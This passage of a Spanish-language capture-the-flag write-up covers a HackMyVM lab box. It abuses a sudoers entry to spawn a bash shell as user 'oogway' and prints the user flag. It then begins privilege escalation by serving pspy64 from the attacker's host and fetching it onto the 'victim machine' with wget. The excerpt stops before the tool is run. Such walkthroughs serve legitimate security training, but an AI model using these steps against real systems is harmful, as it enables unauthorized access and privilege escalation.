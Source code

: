Echo esto veremos una cosa bastante interesante:

<figure><img src="../../.gitbook/assets/image (356).png" alt=""><figcaption></figcaption></figure>

Vemos que en la carpeta `sudoers.d` del archivo que contiene llamado `po` esta la siguiente linea, por lo que vamos a probar a realizar lo siguiente:

```shell
sudo -u oogway -h HackMyVM /bin/bash
```

Info:

```
oogway@hostname:/home/po$ whoami
oogway
```

Con esto veremos que funciono correctamente y seremos dicho usuario, por lo que leeremos la `flag` del usuario.

> user.txt

```
081ecc5e6dd6ba0d150fc4bc0e62ec50
```

## Escalate Privileges

Vamos a ver los procesos que pasan en la maquina con una herramienta llamada `pspy64`, nos la descargaremos en el siguiente link:

URL = [Download pspy64 GitHub](https://github.com/DominicBreuker/pspy/releases/download/v1.2.1/pspy64)

Una vez descargada, vamos abrirnos un servidor de `python3` para pasarnos la herramienta:

> HOST

```shell
python3 -m http.server 80
```

> MAQUINA VICTIMA

```shell
wget http://<IP>/pspy64
```

Echo esto le daremos permisos de ejecuccion al script:

```shell
chmod +x pspy64
```

Ahora vamos a ejecutarlo de la siguiente forma:
